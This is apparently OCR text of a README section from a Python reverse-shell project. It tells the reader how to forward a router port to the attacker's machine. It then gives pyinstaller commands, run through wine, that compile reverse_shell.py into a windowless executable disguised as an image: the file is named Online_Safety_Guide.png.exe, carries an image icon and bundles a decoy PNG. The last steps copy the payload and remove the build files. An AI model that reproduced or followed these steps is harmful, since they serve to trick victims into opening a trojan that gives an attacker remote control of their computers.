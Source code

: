 # SET THE LISTEN/ CONNECT PORT NUMBERS IF REQUIRED ... THEY MUST BE THE SAME!
#
# CONFIGURE YOUR ROUTER FOR IP FORWARDING AS FOLLOWING:-
--------------------------------------------------------
[*] SERVICE PORT = 54321	[OR AS SET IN SCRIPT]
[*] INTERNAL PORT = 54321	[MUST BE SAME AS ABOVE]
[*] IP ADDRESS = LOCAL IP ADDRESS OF THE ATTACKER
[*] PROTOCOL = TCP/ UDP	[USUALLY THIS IS DEFAULT]
#
# ONCE THE ABOVE STEPS ARE DONE CORRECTLY, THE PAYLOAD CAN STILL BE CREATED USING THE FOLLOWING COMMAND AS ROOT
# 
root@host:~# wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/home/voldemort/Desktop/pythonScripts/Reverse_Shell/Res/Online_Safety_Guide.png;." --onefile --noconsole --icon /home/voldemort/Desktop/pythonScripts/Reverse_Shell/Res/Icons/img.ico -n Online_Safety_Guide.png Scripts/reverse_shell.py

root@host:~# cp dist/Online_Safety_Guide.png.exe Online_Safety_Guide.png.exe

root@host:~# rm -r dist/ build/ Online_Safety_Guide.png.spec

# AND THE PAYLOAD WILL BE GENERATED AND SAVED IN YOUR CURRENT WORKING DIRECTORY [SHOULD BE THE PARENT DIRECTORY TO AVOID ANY DEPENDENCY ERRORS]

=========================================================================================================================================================================================================================================================

